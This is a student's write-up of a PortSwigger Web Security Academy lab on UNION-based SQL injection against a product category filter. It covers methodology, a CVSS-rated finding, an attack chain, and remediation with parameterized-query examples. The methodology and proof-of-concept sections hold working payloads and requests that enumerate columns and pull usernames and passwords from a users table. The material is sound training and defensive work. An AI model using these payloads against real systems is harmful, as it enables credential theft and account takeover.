


# SQL Injection UNION Attack — Retrieving Data from Other Tables

> UNION-based SQL injection exploitation against a product category filter, resulting in full credential extraction from the application's user database and administrative account compromise.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings](#findings)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

SQL injection remains one of the most prevalent and impactful vulnerability classes in web application security, consistently ranked under OWASP A03:2021 — Injection. When combined with a UNION operator, an injectable parameter can be repurposed to extract data from arbitrary tables within the underlying database.

This lab exercise, sourced from the PortSwigger Web Security Academy, demonstrates the complete exploitation lifecycle of a UNION-based SQL injection vulnerability embedded in a product category filter endpoint. The attack required enumerating the number and data types of columns returned by the original query, then constructing a UNION payload to extract credential data from a secondary table (`users`) not intended for public exposure.

The lab was solved by extracting all usernames and passwords from the `users` table and using the recovered administrator credentials to authenticate into the application.

> **Key Outcome:** Successfully retrieved plaintext administrator credentials via a two-stage UNION-based SQL injection attack, achieving full administrative account compromise against an authorized lab environment.

---

## Scope & Objectives

### Objectives

- Determine the number of columns returned by the vulnerable SQL query using UNION-based probing
- Confirm which columns accept string data, establishing UNION injection feasibility
- Craft a UNION SELECT payload to extract all rows from the `users` table
- Authenticate as the `administrator` user using recovered credentials

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| `https://0af50003046b6038812da28b007300e5.web-security-academy.net` | PortSwigger Web Security Academy hosted lab instance | Web Application |
| `/filter?category=` | Product category filter endpoint — injection point | HTTP Parameter |
| `users` table | Target table containing `username` and `password` columns | Database Object |

### Out of Scope

- Any system or endpoint outside the assigned lab instance
- Exploitation of other vulnerability classes (XSS, CSRF, IDOR) present or absent in the application
- Privilege escalation beyond authentication as `administrator`

### Engagement Type

> **Type:** Gray-box (table name and column names provided as part of the lab specification)
> **Authorization:** PortSwigger Web Security Academy — fully sanctioned training environment
> **Duration:** Single session

---

## Methodology

The methodology followed the OWASP Testing Guide (v4.2) — specifically `WSTG-INPV-05: Testing for SQL Injection` — and aligned with the Penetration Testing Execution Standard (PTES) for web application vulnerability exploitation.

### Phase 1 — Reconnaissance

The target endpoint was identified as:

```
GET /filter?category=[user-controlled input]
```

The `category` parameter was identified as unsanitized user input reflected directly into a backend SQL query. The response body rendered product listings derived from the query result, indicating that UNION injection output would be visible in the application response.

### Phase 2 — Column Enumeration

The number of columns in the original `SELECT` query was determined by incrementally adding `NULL` columns to a UNION payload until the application returned a valid response without error.

A two-column configuration was confirmed as valid. Both columns were subsequently tested for string compatibility by substituting string literals (`'abc'`, `'def'`) in place of `NULL` values. The application returned the injected strings in the response, confirming both columns accept string-type data.

**Payload used for column count and type confirmation:**

```sql
' UNION SELECT 'abc','def'--
```

**URL-encoded request:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+'abc','def'-- HTTP/1.1
```

### Phase 3 — Data Extraction

With the column count and data types confirmed, a UNION SELECT payload was constructed to query the `users` table, selecting the `username` and `password` columns directly into the response.

**Extraction payload:**

```sql
' UNION SELECT username, password FROM users--
```

**URL-encoded request:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users-- HTTP/1.1
```

### Phase 4 — Credential Use

The response returned all rows from the `users` table, including the `administrator` account and its associated password. These credentials were used to authenticate through the application's standard login interface, completing the lab objective.

---

## Findings

### Finding F-001: UNION-Based SQL Injection in Category Filter Parameter

| Field | Detail |
|-------|--------|
| **ID** | F-001 |
| **Severity** | [CRITICAL] |
| **CVSS v3.1 Score** | 9.1 |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` |
| **CWE** | CWE-89: Improper Neutralization of Special Elements in an SQL Command |
| **OWASP Category** | A03:2021 — Injection |
| **MITRE ATT&CK TTP** | T1190 — Exploit Public-Facing Application |
| **Affected Component** | `GET /filter?category=` — HTTP query parameter |

#### Description

The `category` parameter in the product filter endpoint is passed directly into a backend SQL query without input sanitization or parameterization. An unauthenticated attacker can inject SQL syntax — including `UNION SELECT` statements — that are executed by the database engine. Because the application renders query results in the HTTP response, injected output is returned to the attacker in plaintext.

#### Technical Impact

- Complete extraction of all data from any accessible database table, including the `users` table containing plaintext or recoverable credentials
- Authentication bypass via credential theft, resulting in administrative account takeover
- Full read access to the database schema and application data accessible under the current database user's privileges

#### Business Impact

- Unauthorized access to all application user accounts, including administrator credentials
- Potential for full application compromise via authenticated administrator functions
- Regulatory and compliance exposure: credential theft constitutes a data breach under GDPR, Ghana's Data Protection Act 2012, and related frameworks

#### Proof of Concept

**Step 1 — Confirm two-column structure:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+'abc','def'-- HTTP/1.1
Host: 0af50003046b6038812da28b007300e5.web-security-academy.net
```

**Expected result:** Application response includes the injected string values `abc` and `def` rendered within the product listing section — no SQL error returned.

**Step 2 — Extract user credentials:**

```
GET /filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users-- HTTP/1.1
Host: 0af50003046b6038812da28b007300e5.web-security-academy.net
```

**Expected result:** All rows from the `users` table are returned in the product listing area, including the `administrator` username and corresponding password.

**Step 3 — Authenticate as administrator:**

Navigate to the application login page and submit the recovered administrator credentials. Successful login confirms account takeover.

#### Reproduction Steps

1. Identify a parameter reflected in a SQL query by injecting a single quote (`'`) and observing an error or behavioral change
2. Use `UNION SELECT NULL--`, `UNION SELECT NULL,NULL--`, etc., to enumerate column count until no error is returned
3. Replace `NULL` values with string literals (`'a'`) to identify string-compatible columns
4. Substitute string literals with the target table query: `UNION SELECT username, password FROM users--`
5. Recover credentials from the HTTP response body

#### Retest Criteria

Finding is remediated when:
- Injection of `' UNION SELECT 'a','b'--` returns an error or no results, with no injected values appearing in the response
- Parameterized query implementation is confirmed via code review or static analysis
- A Web Application Firewall rule or input validation layer blocks SQL metacharacters without relying on it as the sole control

---

## Risk Summary

| ID | Severity | CVSS | Component | Impact | Priority |
|----|----------|------|-----------|--------|----------|
| F-001 | [CRITICAL] | 9.1 | `/filter?category=` parameter | Full credential extraction, admin account takeover | [IMMEDIATE] |

---

## Attack Chain

```
[1] Unauthenticated HTTP Request
        |
        v
[2] Inject single quote into category parameter
    --> Behavioral change observed (SQL syntax error or altered response)
        |
        v
[3] UNION SELECT NULL, NULL -- (column count enumeration)
    --> No error = 2-column query confirmed
        |
        v
[4] UNION SELECT 'abc','def' --
    --> String literals returned in response = both columns string-compatible
        |
        v
[5] UNION SELECT username, password FROM users --
    --> All user credentials returned in HTTP response body
        |
        v
[6] Login with administrator:password
    --> Administrative access achieved
```

**MITRE ATT&CK Mapping:**

| Tactic | Technique | ID |
|--------|-----------|----|
| Initial Access | Exploit Public-Facing Application | T1190 |
| Credential Access | Unsecured Credentials | T1552 |
| Privilege Escalation | Valid Accounts (Admin) | T1078.001 |

---

## Tools & Environment

| Tool / Technology | Version | Purpose |
|-------------------|---------|---------|
| Web Browser (Chromium) | Current | Manual HTTP request construction and response observation |
| PortSwigger Web Security Academy | N/A | Authorized lab hosting platform |
| URL encoding (manual) | N/A | Encoding UNION payloads for delivery via URL parameter |

> Note: No automated scanning tools (Burp Suite Scanner, sqlmap) were used. Exploitation was performed manually to demonstrate conceptual understanding of UNION-based injection mechanics.

---

## Evidence

### Column Enumeration and String Type Confirmation


*Caption: UNION payload `UNION SELECT 'abc','def'--` returned both injected string values in the product listing response, confirming a two-column, string-compatible query structure.*

### Credential Extraction and Lab Completion


*Caption: Successful authentication as the `administrator` user following extraction of plaintext credentials from the `users` table via UNION injection. PortSwigger lab marked as solved.*

---

## Remediation

### R-001: Replace Dynamic Query Construction with Parameterized Queries

**Priority:** [IMMEDIATE]

The root cause is the direct interpolation of user-controlled input into a SQL query string. The remediation is to use parameterized queries (also known as prepared statements) for all database interactions involving user-supplied data.

**Vulnerable pattern (illustrative):**

```python
# Python / Django — vulnerable
category = request.GET.get('category')
query = f"SELECT * FROM products WHERE category = '{category}'"
cursor.execute(query)
```

**Remediated pattern:**

```python
# Python / Django — parameterized
category = request.GET.get('category')
query = "SELECT * FROM products WHERE category = %s"
cursor.execute(query, [category])
```

**For Django ORM users (preferred):**

```python
# Fully safe — ORM handles parameterization automatically
from products.models import Product
products = Product.objects.filter(category=request.GET.get('category'))
```

**Retest criteria:** Submit `' UNION SELECT 'a','b'--` as the `category` value. The application must return no results or an application-level error — the injected string must not appear in the response.

### R-002: Implement Input Validation as a Defense-in-Depth Control

**Priority:** [SHORT-TERM]

Apply allowlist-based validation on the `category` parameter to reject inputs that do not conform to expected formats (alphanumeric characters, spaces, and hyphens only). This does not replace parameterized queries but reduces attack surface breadth.

```python
import re

def validate_category(value):
    if not re.match(r'^[a-zA-Z0-9 \-]+$', value):
        raise ValueError("Invalid category value")
    return value
```

### R-003: Enforce Least Privilege on the Database User

**Priority:** [SHORT-TERM]

The database account used by the application should have only `SELECT` access on the tables required for application functionality. It must not have access to system tables, user management tables, or any tables outside the application schema.

### R-004: Deploy a Web Application Firewall Rule for SQLi Detection

**Priority:** [PLANNED]

Configure WAF rules to detect and block common SQL injection patterns, including `UNION SELECT`, `--`, and quote-based injection markers. WAF rules are a complementary control, not a substitute for secure query construction.

---

## Lessons Learned

**Skill developed: UNION-based SQL injection — end-to-end exploitation**

This lab reinforced the full UNION injection methodology:

1. Column count enumeration via incremental `NULL` additions is more reliable than ORDER BY-based enumeration in environments that suppress error messages
2. Both the column count and data type compatibility must be confirmed before a UNION SELECT payload will return output — a partial match silently fails
3. UNION injection requires that the injected SELECT statement return the same number of columns and compatible types as the original query — type mismatches produce no output, not an error
4. The visibility of UNION output depends entirely on the application rendering the result set; this technique does not apply to blind SQLi contexts

**Defensive takeaway:** Parameterized queries eliminate the injection vector at the source. No WAF rule, input filter, or encoding scheme is a reliable substitute. OWASP SQL Injection Prevention Cheat Sheet identifies prepared statements as the primary defense.

**Tags:** `sql-injection` `union-attack` `owasp-a03` `cwe-89` `web-application-security` `portswigger-labs` `credential-extraction`

---

## References

- [OWASP Testing Guide v4.2 — WSTG-INPV-05: Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [CVSS v3.1 Specification — NVD Calculator](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)
- [PortSwigger Web Security Academy — SQL Injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger — SQL Injection UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
